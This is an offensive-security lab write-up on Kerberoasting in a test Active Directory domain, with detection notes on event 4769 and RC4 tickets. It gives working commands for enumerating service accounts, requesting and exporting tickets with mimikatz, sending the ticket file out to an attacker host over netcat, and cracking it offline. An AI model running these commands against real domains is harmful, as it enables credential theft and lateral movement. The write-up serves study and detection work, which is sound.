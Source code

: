 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(i.e account used for running an IIS service\) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```

![](../../.gitbook/assets/kerberoast-setspn-1.png)

Attacker requesting a kerberos ticket \(TGS\) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` \(from advanced Powershell logging\) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` \(23 decimal, meaning it's RC4 encrypted\):

![](../../.gitbook/assets/kerberoast-logs.png)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](../../.gitbook/assets/kerberoast-tgs-res.png)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:

{% code title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" caption="kerberoast.pcap" %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" caption="" %}

{% embed url="https://github.com/nidem/kerberoast" caption="" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" caption="" %}

{% embed url="https://adsecurity.org/?p=2293" caption="" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" caption="" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" caption="" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" caption="" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" caption="" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" caption="" %}

{% embed url="http://rc4.online-domain-tools.com/" caption="" %}

{% embed url="https://crackstation.net/" caption="" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" caption="" %}

{% embed url="https://medium.com/@jsecurity101/ioc-differences-between-kerberoasting-and-as-rep-roasting-4ae179cdf9ec" caption="" %}

